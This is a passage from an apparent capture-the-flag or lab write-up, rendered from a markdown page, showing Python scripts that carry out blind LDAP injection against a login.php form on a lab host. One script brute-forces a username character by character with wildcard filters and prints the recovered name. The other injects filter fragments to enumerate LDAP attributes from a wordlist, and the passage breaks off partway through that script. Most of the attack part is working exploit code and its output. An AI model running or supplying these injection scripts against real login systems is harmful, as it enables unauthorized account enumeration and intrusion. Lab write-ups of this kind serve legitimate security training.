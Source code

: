    2. Extract an actual username:
      ```py
      import requests as r
      import urllib.parse as u

      username = ""
      char_list = "abcdefghijklmnopqrstuvwxyz0123456789"
      while True:
          for i in range(0, len(char_list)):
              
              ldap_injection = "%s%c*" % (username, char_list[i])
              data = { "inputUsername": u.quote(ldap_injection) }
              req = r.post("http://10.10.10.122/login.php", data=data)

              if "Cannot login" in req.text:
                  username = username + char_list[i]
                  print(username)
                  break
              
          if i == len(char_list) - 1 : break

      print("[x] THE USERNAME IS " + username)
      ```
      - Run using `python3`:
        ```
        l
        ld
        lda
        ldap
        ldapu
        ldapus
        ldapuse
        ldapuser
        [x] THE USERNAME IS ldapuser
        ```
      __NOTE(S)__:
      - __Blind__ injection has yielded a result
      - An actual username has been extracted -- `ldapuser`

   3. Find available LDAP attributes:
      ```py
      import requests as r
      import urllib.parse as u

      attribute_list = open("/usr/share/wordlists/ldap_attribute_names.txt", "r")

      attributes = []
      for i in attribute_list:
              
          ldap_injection = "ldapuser))(&(%s=*" % (i[:-1])
          
          data = { "inputUsername": u.quote(ldap_injection) }
          req = r.post("http://10.10.10.122/login.php", data=data)

          if "Cannot login" in req.text:
              print(ldap_injection)
              attributes.append(i[:-1])

